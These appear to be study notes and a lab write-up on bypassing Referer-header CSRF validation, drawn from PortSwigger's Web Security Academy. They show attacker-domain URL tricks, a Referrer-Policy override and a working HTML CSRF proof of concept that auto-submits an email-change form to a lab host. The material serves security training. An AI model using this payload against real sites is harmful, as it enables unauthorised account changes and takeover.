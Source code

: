 > test: try removing the referer header

#### Validation of Referer can be circumvented

Some applications validate the `Referer` header incorrectly.

For example, if the application validates that the domain in the `Referer` starts with the expected value, then the attacker can place this as a subdomain of their own domain:

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

> Note: Many browsers now strip the query string from the Referer header by default.
> You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set.
> This ensures that the full URL will be sent, including the query string.

##### Notes for the LAB writeup

```html
<html>
  <body>
    <script>
      history.pushState("", "", "/?0af100e30325fe5380163f020068009f.web-security-academy.net")
    </script>
    <form action="https://0af100e30325fe5380163f020068009f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="csrf@csrf.example.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Calling [`pushState()`](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState) is similar to setting `window.location = "#foo"`, in that both will also create and activate another history entry associated with the current document.

But `pushState()` has a few advantages:

- The new URL can be any URL in the same origin as the current URL. In contrast, setting window.location keeps you at the same document only if you modify only the hash.
- Changing the page's URL is optional. In contrast, setting `window.location = "#foo"`; only creates a new history entry if the current hash isn't `#foo`.
- You can associate arbitrary data with your new history entry. With the hash-based approach, you need to encode all of the relevant data into a short string.

This will set the location to `https://exploit-0a96001b0372fe7580b03efb01e400f6.exploit-server.net/?0af100e30325fe5380163f020068009f.web-security-academy.net`


# Reference
- [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
- [https://developers.google.com/search/blog/2020/01/get-ready-for-new-samesitenone-secure](https://developers.google.com/search/blog/2020/01/get-ready-for-new-samesitenone-secure)
